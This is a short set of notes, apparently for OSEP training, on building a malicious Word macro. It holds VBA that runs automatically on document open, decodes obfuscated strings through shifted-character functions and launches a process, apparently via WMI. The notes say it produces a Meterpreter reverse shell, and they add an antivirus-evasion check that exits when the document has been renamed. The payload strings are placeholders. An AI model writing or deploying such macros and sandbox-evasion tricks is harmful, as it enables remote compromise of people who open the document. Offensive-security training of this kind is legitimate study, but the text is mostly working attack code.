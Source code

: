 ```VB
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Function Pears(Beets)
    Pears = Chr(Beets - 17)
End Function

Function Strawberries(Grapes)
    Strawberries = Left(Grapes, 3)
End Function

Function Almonds(Jelly)
    Almonds = Right(Jelly, Len(Jelly) - 3)
End Function

Function Nuts(Milk)
    Do
    Oatmilk = Oatmilk + Pears(Strawberries(Milk))
    Milk = Almonds(Milk)
    Loop While Len(Milk) > 0
    Nuts = Oatmilk
End Function

Function MyMacro()
    Dim Apples As String
    Dim Water As String
    
    Apples = "<clipboard>"
    Water = Nuts(Apples)
    GetObject(Nuts("<clipboard>")).Get(Nuts("<clipboard>")).Create Water, Tea, Coffee, Napkin
End Function
```

When most AV products emulate the execution of a document, they **rename** it.

=> During execution, check the name of the document. 

=> If it is not the same as the one we originally provided, the execution has been emulated. Exit the code

Generates a Meterpreter reverse shell provided that our file is named `runner.doc`

```VB
If ActiveDocument.Name <> Nuts("131134127127118131063117128116") Then
    Exit Function
End If
```

## Creating Malicious Macro for OSEP
